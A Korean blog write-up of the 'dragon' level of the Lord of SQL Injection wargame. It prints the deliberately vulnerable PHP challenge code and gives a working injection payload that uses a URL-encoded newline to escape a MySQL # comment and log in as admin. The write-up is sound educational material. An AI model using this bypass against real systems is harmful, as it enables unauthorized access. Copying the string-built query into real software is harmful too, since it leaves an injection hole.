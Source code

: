 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `dragon`이다.  

메인 이미지가 `용이 산다` 웹툰의 `마리`다.  

대존귀탱 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=''
-------------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 쿼리문 중간에 `#`이 들어가 있다.  

`#`은 `MySQL`에서 주석을 의미한다.  

처음에는 이 주석을 어떻게 우회할 수 있지 않을까 생각했다.  

그래서 이것저것 찾다가 `executabl comments`를 찾게 되었다.  

`MySQL` 에서 주석이 여러개가 있는데, 그 중에 `/* */`이 있다.  

이 때, `/*! QUERY */` 이런식으로 안에 느낌표를 넣어주면, 해당 쿼리를 실행할 수 있다고 한다.  

쨌든 이건 문제 풀이와는 상관 없다.  

주석을 우회할 수 없을까 계속 고민하다가 서버에서 `MySQL`을 실행시키고 쿼리를 여러개 테스트 해 보았다.  

```
mysql> select idx from board where idx=50# or idx=/*!####51*/;
    -> ;

mysql> select 1 from board where idx=50# or #idx=51;
    -> ;
```

이런 형태로 테스트를 해 보았는데, 한가지 특징이 나타났다.  

잘 보면, `#` 이후는 다 주석처리가 됬다는 사실을 알 수 있다.  

때문에 쿼리가 완성이 되지 않았기 때문에 다음 줄을 입력하라고 떴고, 거기에 `;`을 입력 해 쿼리를 완성시켜주었더니 정상적으로 쿼리가 실행되었다.  

즉, `#`은 `한 줄짜리 주석`이며, `MySQL`은 `여러 줄에 걸쳐` 쿼리를 작성할 수 있다.  

이번에는 이 점을 이용해서 문제를 풀었다.  

현재 쿼리는 다음과 같다.  

```
select id from prob_dragon where id='guest'# and pw=''
```

그런데 만약 여기서 `pw`에 `%0a`를 입력 해 개행한다면 다음과 같이 구성 될 것이다.  

```
select id from prob_dragon where id='guest'# and pw='
'
```

이 때, 다음 줄은 주석이 아니므로 정상적으로 쿼리를 이어서 실행시킬 수 있게 된다.  

```
select id from prob_dragon where id='guest'# and pw='
and pw=1 or id='admin'
```

따라서 위와 같이 쿼리를 구성한다면 다음 줄의 쿼리를 실행시킬 수 있다.  

이를 위해 `URL`에 아래와 같이 입력 해 문제를 풀 수 있었다.  

```
?pw=%0a and pw=1 or id='admin
```

```php
--------------------------------------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=' and pw=1 or id='admin'
--------------------------------------------------------------------------------------------------------------------

Hello admin
DRAGON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

`DRAGON Clear!!`
